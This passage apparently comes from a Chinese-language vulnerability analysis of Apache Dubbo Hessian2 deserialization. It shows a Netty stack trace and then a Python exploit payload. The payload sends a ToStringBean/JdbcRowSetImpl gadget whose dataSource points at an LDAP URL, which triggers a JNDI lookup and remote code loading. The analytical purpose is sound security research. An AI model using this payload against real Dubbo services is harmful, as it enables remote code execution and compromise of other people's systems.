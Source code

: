 ```java
fireChannelRead:352, AbstractChannelHandlerContext (io.netty.channel)
channelRead:1408, DefaultChannelPipeline$HeadContext (io.netty.channel)
invokeChannelRead:374, AbstractChannelHandlerContext (io.netty.channel)
invokeChannelRead:360, AbstractChannelHandlerContext (io.netty.channel)
fireChannelRead:930, DefaultChannelPipeline (io.netty.channel)
read:163, AbstractNioByteChannel$NioByteUnsafe (io.netty.channel.nio)
processSelectedKey:682, NioEventLoop (io.netty.channel.nio)
processSelectedKeysOptimized:617, NioEventLoop (io.netty.channel.nio)
processSelectedKeys:534, NioEventLoop (io.netty.channel.nio)
run:496, NioEventLoop (io.netty.channel.nio)
run:906, SingleThreadEventExecutor$5 (io.netty.util.concurrent)
run:74, ThreadExecutorMap$2 (io.netty.util.internal)
run:30, FastThreadLocalRunnable (io.netty.util.concurrent)
run:745, Thread (java.lang)
```





#### 漏洞触发点2

网上还有一个python的payload：

```python
# -*- coding: utf-8 -*-
#pip3 install dubbo-py
from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient

client = DubboClient('127.0.0.1', 20880)

JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource="ldap://127.0.0.1:8085/BSLQJNYb",
      strMatchColumns=["foo"]
      )
JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

resp = client.send_request_and_return_response(
service_name='any',
method_name='any',
args=[toStringBean])
```

注意到这个payload里面并没有使用到hashMap、hashTable之类的进行装配，为什么还能触发？
